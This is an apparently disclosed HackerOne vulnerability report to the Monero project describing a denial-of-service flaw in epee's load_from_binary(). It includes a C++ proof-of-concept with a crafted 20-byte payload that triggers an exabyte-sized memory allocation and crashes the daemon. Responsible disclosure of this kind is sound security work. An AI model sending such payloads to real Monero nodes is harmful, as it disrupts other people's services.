 # (remote) exabyte allocation via load_from_binary() (DoS)

## Report Details
- **Report ID**: 506498
- **URL**: https://hackerone.com/reports/506498
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-07T20:53:25.543Z
- **Disclosed**: 2019-07-03T00:12:02.972Z

## Reporter
- **Username**: guido
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: monero

## Vulnerability Information
Changes introduced in commit b82efa32e can result in a denial of service if ```epee::serialization::portable_storage::load_from_binary()``` is called with untrusted data.

The 'reserve' method implemented here:
https://github.com/monero-project/monero/commit/b82efa32e771f653c5e49165b0659c67e2db3438#diff-8de201c60a8c7a3a0a4c2e15f2c0939bR75

will attempt to allocate about 4 exabytes of memory when you run the following code:

```cpp
#include <serialization/keyvalue_serialization.h>
#include <storages/portable_storage_template_helper.h>
#include <storages/portable_storage_base.h>
#include <p2p/p2p_protocol_defs.h>
#include <p2p/net_node.h>

int main(void)
{
    unsigned char payload[] = {
        0x01, 0x11, 0x01, 0x01, 0x01, 0x01, 0x02, 0x01, 0x01, 0x08, 0x00, 0x84,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff
    };

    const std::string s(payload, payload + 20);
    epee::serialization::portable_storage ps;
    ps.load_from_binary(s);
}
```

Although I haven't yet constructed a proof of concept against a live Monero instance, this can probably achieved by a remote attacker because the ```load_from_binary``` call occurs several times in the network code in ```contrib/epee/include/storages/levin_abstract_invoke2.h```.

Please let me know if this is sufficient, or that you require proof of concept code that can be used against peers on the network.

## Impact

Crash monerod

## Attachments
No attachments
